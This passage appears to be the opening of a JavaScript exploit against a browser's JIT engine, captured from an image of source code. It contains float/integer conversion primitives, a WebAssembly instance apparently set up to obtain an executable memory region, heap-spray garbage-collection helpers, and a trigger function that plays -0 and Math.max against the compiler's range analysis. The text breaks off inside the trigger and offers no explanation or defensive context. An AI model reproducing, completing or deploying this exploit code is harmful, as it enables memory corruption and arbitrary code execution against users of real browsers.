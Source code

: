 
```js
let CONVERSION = new ArrayBuffer(8);
let CONVERSION_U32 = new Uint32Array(CONVERSION);
let CONVERSION_F64 = new Float64Array(CONVERSION);

let ab = new ArrayBuffer(100);
let wasm_bytes = new Uint8Array([0, 97, 115, 109, 1, 0, 0, 0, 1, 8, 2, 96, 1, 127, 0, 96, 0, 0, 2, 25, 1, 7, 105, 109, 112, 111, 114, 116, 115, 13, 105, 109, 112, 111, 114, 116, 101, 100, 95, 102, 117, 110, 99, 0, 0, 3, 2, 1, 1, 7, 17, 1, 13, 101, 120, 112, 111, 114, 116, 101, 100, 95, 102, 117, 110, 99, 0, 1, 10, 8, 1, 6, 0, 65, 42, 16, 0, 11]);

let wasm_inst = new WebAssembly.Instance(new WebAssembly.Module(wasm_bytes), {
  imports: {
    imported_func: function (x) {
      return x;
    },
  },
});

let wf = wasm_inst.exports.exported_func;

function tohex64(x) {
  return (
    "0x" +
    x[1].toString(16).padStart(8, "0") +
    x[0].toString(16).padStart(8, "0")
  );
}

function u32_to_f64(u) {
  CONVERSION_U32[0] = u[0];
  CONVERSION_U32[1] = u[1];
  return CONVERSION_F64[0];
}

function f64_to_u32(f, b = 0) {
  CONVERSION_F64[0] = f;
  if (b) return CONVERSION_U32;
  return new Uint32Array(CONVERSION_U32);
}

function print(s) {
  console.log(s);
}

function gc() {
  for (let i = 0; i < 0x10; i++) new ArrayBuffer(0x800000);
}

function trigger(a) {
  let minusZero = -0;
  let p = -0x80000000;

  if (a) {
    minusZero = -1;
    p = 1;
  }

  p = minusZero - p;
  p = p + 0;
  p = Math.max(-4, p);
  p = -p;
  p += 1;
```
